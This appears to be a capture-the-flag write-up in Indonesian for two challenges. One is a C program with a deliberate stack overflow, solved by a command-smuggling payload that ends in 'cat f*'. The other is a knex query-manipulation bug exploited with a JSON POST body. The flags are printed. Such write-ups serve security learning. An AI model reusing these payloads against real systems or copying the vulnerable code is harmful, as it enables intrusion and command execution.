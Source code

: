 # pwn
## ez-pwn-1
### tldr;
dikasih source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


int main()
{
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
    if (!strcmp(way_too_small_input_buf, "no\n")) {
        puts("Oh, ok :(");
        exit(0);
    }

    puts("Ok, here ya go!\n");
    system(command);

}
```

tinggal bof biasa payload: aaaabaaacd th*;ls;cat f*

flag: flag{congrats_youve_exploited_a_memory_corruption_vulnerability}

# web
## xark
Pada challenge in kita diberikan source code berupa js program.
```js
...snip...
const app = express();
const port = 3001;
const knex = require('knex')(config.get('knex'));
...snip...
```

program ini menggunakan knex sebagai module untuk mengurus query mysql program ini.
https://github.com/knex/knex/issues/1227 

![](Pasted%20image%2020221121074939.png)

TL;DR knex mempunyai sebuah vulnerability lama, dimana kita bisa merubah query dari program knex menggunakan application/json post requests. Jadi semisal kita membuat query seperti dibawah ini:

```json
{"to": {"message":"the flag is here!"}}
```

maka akan menjadi

![](Pasted%20image%2020221121075018.png)

#### exploitation
Jadi untuk mendapatkan flag yang terdapat di query di bawah ini:

```js
...snip...
        knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',
        }).then();
    }
});
...snip...
```

kita bisa melakukan post request application/json di endpoint POST /data HTTP/1.1

![](Pasted%20image%2020221121075102.png)

